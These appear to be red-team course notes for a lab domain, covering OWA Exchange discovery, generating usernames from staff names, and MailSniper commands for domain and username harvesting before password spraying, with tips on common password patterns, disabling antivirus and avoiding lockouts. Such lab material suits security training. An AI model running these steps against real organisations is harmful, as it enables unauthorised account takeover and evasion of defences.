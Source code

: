 
We discovered the internal OWA Exchnage Server. We are in a assume breach scenario
```
~/dnscan$ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt
[*] Processing domain cyberbotic.io
---SNIP---
172.67.205.143 - www.cyberbotic.io
104.21.90.222 - www.cyberbotic.io
10.10.15.100 - mail.cyberbotic.io
```

## Password Spraying
Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.

> [!tip] 
>   Be cautious of localisations, e.g. Autumn vs Fall. 

Usernames could be extractet from various sources as seen in the external reconisance, mostly Linkedin or Websites. In this excercise the target has a "Our team" section: 

![[Pasted image 20230324090920.png]]

We can come up with this list:


```
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

Use [namehash.py](https://gist.github.com/superkojiman/11076951) to create  alist of possible usernames based on the names of the people.

```
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

> [!hint] 
> We could potentially skip this step if we knew the email address format from somewhere like hunter.io 

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). import MailSniper.ps1. (Disable AV first)

```
PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1
```


Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`.

```
PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

Get the netbios name with:

```
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```


`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.
 
```
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```
 
 > [!OPSEC]
 > In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users.  Too many attempts in a short space of time are not only loud but may also lock accounts out.
>  
 
 

